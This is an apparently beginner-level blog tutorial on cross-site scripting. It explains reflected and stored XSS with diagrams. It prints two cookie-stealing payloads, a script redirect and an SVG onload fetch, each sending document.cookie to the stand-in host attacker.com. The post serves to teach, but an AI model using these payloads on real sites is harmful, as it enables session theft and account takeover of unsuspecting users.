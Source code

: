 ```yaml
---
title: Basics of Xss
published: true
---
```

Hey Hackers, Today's article will be about Cross-site scripting. We will be discussing about different types of Cross-site scripting but before that we 
need to know what is cross site scripting. So let's get started :)
<p align="center">
  <img src="https://www.davosnetworks.com/wp-content/uploads/2020/07/cross-site-scripting-xss-864x454.jpg" />
</p>
**What is Cross site Scripting?**   
Cross site scripting a.k.a xss is a type of an injection attack where malicious code is being executed on the website i.e. Malicious JavaScript code. Xss is typically can be founded where input fields like search fields, comment fields, or url defined parameters. XSS is marked as A7 on OWASP TOP 10. As from an attacker perspective, xss can allow a hacker to send malicious script to the victim, thus when the victim will execute the script on the browser side, the attacker can retrieve data from the victim or host a malicious code that can gain access to their computer. I think now you got the idea what xss is :p. Let's just cut to the chase and describe the three types of xss. The three types of xss are: -
1. Reflected XSS
2. Stored XSS
3. DOM-Based XSS

**Reflected XSS**   
Reflected xss is defined as where the malicious code is being reflected in the website result. Reflected XSS is a non-persistent attack. Let's take a scenario where awebsite https://www.redacted.com has a forum where the comment field is vulnerable to reflected xss. So the attacker will create an xss payload for e.g: - <br>```https://redacted.com/comment/forum_comment=<script>window.location='http://attacker.com/?cookie='+document.cookie</script>```<br>and place it inside the comment field. So whenever the user clicks on the link inside the comment, it will execute and redirect the user to the attacker server and steal their cookie. Thus the attacker can use the cookie in order to impersonate the user. Or more advanced xss would be to install a malware automatically once the victim has been phished to the attacker server and taking control of their computer.
<p align="center">
  <img src="https://blog.sqreen.com/wp-content/uploads/2018/03/reflexted-xss.png"/>
  Kudos to whoever made this amazing diagram :D
</p>   
**Stored Xss**   
Stored xss a.k.a persistent xss is where the malicious code will constantly execute as it is being stored in the server side. This kind of xss is more dangerous than the reflected or DOM-based xss (Will tell you in the next section about DOM :D) as you don't need to lure the target into clicking a link or any sort of as it will execute everytime when the victim visits that page that contains stored xss payload. For instance, there is a website that contains a section to upload an image and the file upload is vulnerable to xss, so the attacker can create the following payload <br>```<svg xmlns="http://www.w3.org/2000/svg" onload=fetch(‘//attacker.com/?cookie=’+document.cookie)/>```<br> and save it in a file with an extension of svg. Finally then uploading it to the website. Everytime the victim visits the malicious image file, their cookies will be stolen and be send over to the attacker server. Thus the attacker can use the cookies and login to the victim's account.<br>
<p align="center">
  <img src="https://www.imperva.com/learn/wp-content/uploads/sites/13/2019/01/sorted-XSS.png" /><br>
  kudos to imperva :D
</p> 
